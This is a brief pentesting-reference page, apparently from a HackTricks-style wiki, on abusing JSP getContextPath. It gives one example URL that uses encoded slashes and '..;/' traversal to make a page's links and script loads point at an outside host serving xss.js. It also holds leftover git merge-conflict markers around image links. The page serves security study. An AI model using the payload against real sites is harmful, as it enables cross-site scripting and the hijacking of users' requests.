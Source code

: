 # JSP

## **getContextPath** abuse

Info from [here](https://blog.rakeshmane.com/2020/04/jsp-contextpath-link-manipulation-xss.html).

```
 http://127.0.0.1:8080/&sol;rakeshmane.com/xss.js&num;/..;/..;/contextPathExample/test.jsp
```

Accessing that web you may change all the links to request the information to _**rakeshmane.com**_:

<<<<<<< HEAD
![](../../.gitbook/assets/image%20%2854%29.png)

=======
![](<../../.gitbook/assets/image (260).png>)

\
>>>>>>> 72cbd88461ed0e65da5433596050dd2ecb643f6b
